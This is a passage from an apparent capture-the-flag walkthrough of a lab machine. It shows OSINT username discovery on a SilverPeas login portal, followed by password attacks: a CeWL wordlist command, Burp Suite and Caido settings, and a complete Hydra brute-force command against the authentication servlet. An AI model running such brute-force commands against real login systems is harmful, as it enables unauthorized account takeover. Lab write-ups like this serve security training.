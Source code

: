 **Result:** No additional virtual hosts discovered.

### 🎯 OSINT: Username Discovery

**Critical Finding:** Contact page revealed username `scr1ptkiddy`

![Contact Page - Username Discovery](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*tQ1KNikrzMeoM6EOApzLnw.png align="left")

---

## 🔐 SilverPeas Application Analysis (Port 8080)

### Application Discovery

Accessing `http://silverplatter.thm:8080/silverpeas/` revealed a SilverPeas collaboration platform login portal.

![SilverPeas Login Portal](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*IF54K2sQ05UfRfUZv7GkJA.png align="left")

---

## 💥 Exploitation Phase

### Password Spraying Attack

With the identified username `scr1ptkiddy`, I initiated targeted password attacks.

#### 1\. Custom Wordlist Generation

```bash
# Generate wordlist from target website
cewl http://silverplatter.thm -m 4 -w custom_wordlist.txt
```

#### 2\. Method A: Burp Suite Intruder Attack

**Configuration:**

* Target: `POST /silverpeas/AuthenticationServlet`
    
* Payload: Custom wordlist
    
* Attack type: Sniper
    

![Burp Suite Password Attack](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*c9PPG09Nkg-ee85_SnqO8w.png align="left")

#### 3\. Method B: Caido Automated Attack

![Caido Automated Testing](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*HoxPOJVTPcGvoaKQk7uV7w.png align="left")

#### 4\. Method C: Hydra Brute Force

```bash
# Hydra password attack
hydra -l scr1ptkiddy -P custom_wordlist.txt silverplatter.thm \
      -s 8080 http-post-form \
      "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:ErrorCode=1"
```
